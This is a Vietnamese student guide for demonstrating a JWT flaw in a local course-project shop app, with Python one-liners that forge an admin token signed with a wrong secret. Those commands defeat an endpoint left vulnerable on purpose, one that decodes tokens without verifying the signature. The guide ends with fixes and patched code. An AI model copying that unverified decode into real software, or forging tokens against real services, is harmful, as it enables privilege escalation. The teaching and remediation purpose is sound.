





# Hướng dẫn demo lỗi JWT từng bước

Tài liệu này hướng dẫn demo lỗi JWT trong Socrates Shop. Chỉ dùng với ứng dụng local của đồ án.

## 1. Mục tiêu demo

Bạn cần chứng minh:

- User bình thường đăng nhập sẽ nhận JWT có `role=user`.
- Nếu sửa payload JWT thành `role=admin` nhưng ký bằng secret sai, endpoint an toàn sẽ từ chối.
- Endpoint lỗi `/api/jwt/insecure-admin` vẫn cho truy cập vì server decode JWT nhưng không verify chữ ký.

Lỗi nằm ở endpoint:

```text
GET /api/jwt/insecure-admin
```

Do code dùng:

```python
jwt.decode(token, options={"verify_signature": False})
```

## 2. Chuẩn bị

Mở PowerShell tại thư mục dự án:

```powershell
cd D:\ProjectMMH
```

Nếu chưa có `.venv`, tạo môi trường ảo:

```powershell
python -m venv .venv
```

Cài thư viện:

```powershell
.\.venv\Scripts\python.exe -m pip install -r requirements.txt
```

## 3. Chạy web

Trong PowerShell thứ nhất, chạy:

```powershell
.\.venv\Scripts\python.exe app.py
```

Nếu chạy đúng, bạn sẽ thấy Flask hiển thị thông tin server. Mở trình duyệt:

```text
http://127.0.0.1:5000
```

Giữ cửa sổ PowerShell này đang chạy, không tắt.

## 4. Tạo tài khoản demo và lấy JWT thật

Mở PowerShell thứ hai tại cùng thư mục:

```powershell
cd D:\ProjectMMH
```

Tạo tài khoản demo:

```powershell
.\.venv\Scripts\python.exe -c "import json, urllib.request, urllib.error; base='http://127.0.0.1:5000'; user={'username':'jwtdemo','password':'1234'}; req=urllib.request.Request(base+'/api/register', data=json.dumps(user).encode(), headers={'Content-Type':'application/json'}, method='POST'); 
try:
    print(urllib.request.urlopen(req).read().decode())
except urllib.error.HTTPError as e:
    print(e.code, e.read().decode())"
```

Nếu tài khoản đã tồn tại, có thể thấy lỗi `Ten dang nhap da ton tai`. Lỗi này không sao, tiếp tục bước đăng nhập.

Đăng nhập và in JWT thật:

```powershell
.\.venv\Scripts\python.exe -c "import json, urllib.request; base='http://127.0.0.1:5000'; user={'username':'jwtdemo','password':'1234'}; req=urllib.request.Request(base+'/api/login', data=json.dumps(user).encode(), headers={'Content-Type':'application/json'}, method='POST'); data=json.loads(urllib.request.urlopen(req).read()); print(data['jwt'])"
```

Copy token vừa in ra. Đây là JWT thật của user bình thường.

## 5. Đọc payload của JWT thật

Chạy lệnh sau để xem payload:

```powershell
.\.venv\Scripts\python.exe -c "import jwt; token='PASTE_TOKEN_VAO_DAY'; print(jwt.decode(token, options={'verify_signature': False}))"
```

Thay `PASTE_TOKEN_VAO_DAY` bằng JWT thật vừa copy.

Kết quả sẽ có dạng:

```text
{'sub': '1', 'username': 'jwtdemo', 'role': 'user', 'iat': ...}
```

Điểm cần nói khi demo:

```text
Token hợp lệ hiện tại chỉ có role=user, chưa có quyền admin.
```

## 6. Tạo JWT giả mạo role admin

Chạy lệnh sau:

```powershell
.\.venv\Scripts\python.exe -c "import jwt; token='PASTE_TOKEN_VAO_DAY'; claims=jwt.decode(token, options={'verify_signature': False}); claims['role']='admin'; forged=jwt.encode(claims, 'wrong-secret', algorithm='HS256'); print(forged)"
```

Thay `PASTE_TOKEN_VAO_DAY` bằng JWT thật.

Lệnh này làm 3 việc:

- Decode token thật để lấy payload.
- Sửa `role` từ `user` thành `admin`.
- Ký lại bằng secret sai là `wrong-secret`.

Copy token mới vừa in ra. Đây là JWT giả mạo.

## 7. Gửi JWT giả mạo vào endpoint an toàn

Chạy:

```powershell
.\.venv\Scripts\python.exe -c "import urllib.request, urllib.error; base='http://127.0.0.1:5000'; token='PASTE_FORGED_TOKEN_VAO_DAY'; req=urllib.request.Request(base+'/api/jwt/profile', headers={'Authorization':'Bearer '+token}); 
try:
    print(urllib.request.urlopen(req).status)
    print(urllib.request.urlopen(req).read().decode())
except urllib.error.HTTPError as e:
    print(e.code)
    print(e.read().decode())"
```

Thay `PASTE_FORGED_TOKEN_VAO_DAY` bằng JWT giả mạo.

Kết quả mong đợi:

```text
401
JWT khong hop le: Signature verification failed
```

Điểm cần nói khi demo:

```text
Endpoint /api/jwt/profile verify chữ ký đúng cách, nên phát hiện token đã bị sửa và từ chối.
```

## 8. Gửi JWT giả mạo vào endpoint bị lỗi

Chạy:

```powershell
.\.venv\Scripts\python.exe -c "import urllib.request, urllib.error; base='http://127.0.0.1:5000'; token='PASTE_FORGED_TOKEN_VAO_DAY'; req=urllib.request.Request(base+'/api/jwt/insecure-admin', headers={'Authorization':'Bearer '+token}); 
try:
    print(urllib.request.urlopen(req).status)
    print(urllib.request.urlopen(req).read().decode())
except urllib.error.HTTPError as e:
    print(e.code)
    print(e.read().decode())"
```

Kết quả mong đợi:

```text
200
Ban da vao endpoint admin vi server decode JWT ma khong verify chu ky.
```

Điểm cần nói khi demo:

```text
Cùng một token giả mạo, endpoint an toàn từ chối, nhưng endpoint admin lỗi lại cho qua.
Lý do là endpoint này chỉ đọc payload role=admin và không kiểm tra chữ ký.
```

## 9. Lệnh demo nhanh nếu muốn chạy một phát

Nếu muốn demo nhanh không cần copy token thủ công, chạy lệnh này trong PowerShell thứ hai:

```powershell
.\.venv\Scripts\python.exe -c "import json, urllib.request, urllib.error, jwt; base='http://127.0.0.1:5000'; user={'username':'jwtdemo','password':'1234'}; req=urllib.request.Request(base+'/api/register', data=json.dumps(user).encode(), headers={'Content-Type':'application/json'}, method='POST'); 
try: urllib.request.urlopen(req).read()
except urllib.error.HTTPError: pass
req=urllib.request.Request(base+'/api/login', data=json.dumps(user).encode(), headers={'Content-Type':'application/json'}, method='POST'); login=json.loads(urllib.request.urlopen(req).read()); real_token=login['jwt']; claims=jwt.decode(real_token, options={'verify_signature': False}); forged=dict(claims); forged['role']='admin'; forged_token=jwt.encode(forged, 'wrong-secret', algorithm='HS256'); print('REAL TOKEN:', real_token); print('FORGED ADMIN TOKEN:', forged_token)
for path in ['/api/jwt/profile','/api/jwt/insecure-admin']:
    req=urllib.request.Request(base+path, headers={'Authorization':'Bearer '+forged_token})
    try:
        res=urllib.request.urlopen(req)
        print(path, res.status, res.read().decode())
    except urllib.error.HTTPError as e:
        print(path, e.code, e.read().decode())"
```

Kết quả đúng:

```text
/api/jwt/profile 401
/api/jwt/insecure-admin 200
```

## 10. Hướng khắc phục

- Không dùng `verify_signature=False` trong endpoint cần xác thực.
- Luôn verify JWT bằng secret hoặc public key đúng.
- Thêm `exp` để token có thời hạn.
- Kiểm tra `iss`, `aud` nếu hệ thống có nhiều service.
- Không tin `role` trong token nếu token chưa được verify.
- Nên lưu token trong cookie `HttpOnly`, `Secure`, `SameSite` thay vì `localStorage`.

## 11. Phần bổ sung: đã sửa lỗi như thế nào

Sau khi demo xong lỗi, phần code cần được sửa ở endpoint:

```text
GET /api/jwt/insecure-admin
```

Trước khi sửa, endpoint này decode JWT nhưng tắt kiểm tra chữ ký:

```python
jwt.decode(token, options={"verify_signature": False})
```

Đây là nguyên nhân làm token giả mạo vẫn được server tin tưởng.

Sau khi sửa, server phải verify chữ ký JWT bằng secret thật:

```python
claims = jwt.decode(token, JWT_SECRET, algorithms=[JWT_ALGORITHM])
```

Khi đó:

- Token thật do server cấp mới được decode thành công.
- Token giả mạo ký bằng secret sai sẽ bị từ chối.
- Server không còn tin payload `role=admin` nếu chữ ký JWT không hợp lệ.

Kết quả mong đợi sau khi vá:

```text
GET /api/jwt/profile
JWT giả mạo -> 401

GET /api/jwt/insecure-admin
JWT giả mạo -> 401
```

Nếu dùng JWT thật của user thường, endpoint admin sẽ không cho vào vì user chỉ có `role=user`:

```text
GET /api/jwt/insecure-admin
JWT thật role=user -> 403
```

Chỉ JWT hợp lệ và có `role=admin` mới được truy cập admin.

## 12. Ảnh demo









